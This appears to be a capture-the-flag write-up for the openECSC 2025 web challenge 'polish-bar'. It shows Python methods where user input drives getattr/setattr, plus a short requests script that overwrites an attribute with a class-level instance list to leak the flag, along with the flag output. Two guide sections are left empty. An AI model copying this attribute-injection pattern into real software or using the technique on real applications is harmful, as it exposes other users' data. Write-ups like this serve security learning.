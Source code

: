 ```yaml
---
title: "openESEC 2025 - web/polish-bar"
layout: single
classes: wide
date: 2025-10-06
categories: blog
toc: true
toc_label: "Table of contents"
---
```


# Polish-bar

> This Web Application was made to adapt to polish (drinking) culture :3

## Primitves

We have http endpoint to register which in turn we need to aquire a valid session. Afterwards, we have the endpoints `config`,`empty` and `beverage` which I mapped to the methods below in the class `BeverageConfig` and `PreferenceConfig`.

```py
    def get_property(self, val):
        try:
            if hasattr(self.alcohol_shelf, val):
                return getattr(self.alcohol_shelf, val)

            return getattr(self, val)
        except:
            return

    # /config
    def update_property(self, key: str, val: str):
        attr = self.get_property(val)
        if attr:
            setattr(self, key, attr)
            return
        return { 'error': 'property doesn\'t exist!' }
    
    # /empty
    def empty_alcohol_shelf(self):
        if hasattr(self.alcohol_shelf, "_alcohol_shelf"):
            self.alcohol_shelf._alcohol_shelf = [self.alcohol_shelf._alcohol_shelf[0]]
        else:
            self.alcohol_shelf = self.alcohol_shelf[0]

    # /beverage
    def add_beverage(self, beverage: str):
        self.alcohol_shelf._alcohol_shelf.append(beverage)

```

Let's disect what each method does:

- `update_property` retrieves the attribute `val` and sets the attribute `key` to its value
- `empty_alcohol_shelf` will shorten the list `self.alcohol_shelf._alcohol_shelf` to its first value to the list `self.alcohol_shelf` to its first value
- `add_beverage` add an item to the list `self.alcohol_shelf._alcohol_shelf`

If you are not familiar with the special methods `getattr`, `setattr` and `hasattr` --- I got you covered in the next section!

Furthermore, the class `PreferenceConfig` and thus `BeverageConfig` due to inheritance have one interesting class variable `_all_instances`. The `__init__` for `PreferenceConfig` append every newly created object to that class as long it inherited from `PreferenceConfig`. 

## Python refresher on instance and objects vars

Below is a small playground I created if you want to try it on your own first. 

<iframe
  src="https://bluuuk.github.io/blog-jupyterlite/lab/index.html"
  width="80%"
  height="600px">
</iframe>


## Intuition


## Step by step guide


## Final Solve

We use an `Session` which automatically glues cookie to subsequent http request once they set - here its the `session` cookie:

```py
import requests
session = requests.Session()
base = "https://3a454160-13f7-4fdc-beaf-ea41d11839cb.openec.sc:1337"

session.post( f"{base}/register", data={"username":"admin","password":"lol"})
session.post(f"{base}/empty")
session.post(f"{base}/config",data={"config":"alcohol_shelf","value":"_all_instances"})
session.post(f"{base}/empty")
print(session.post(f"{base}/profile"))
```

Executing our solve script gives us our well deserved flag :)

```bash
❯ python solve.py | grep open
                    openECSC{gggrrrrrrr_ppyytthhonnn_8c719052fa04}
                               value="openECSC{gggrrrrrrr_ppyytthhonnn_8c719052fa04}">
````
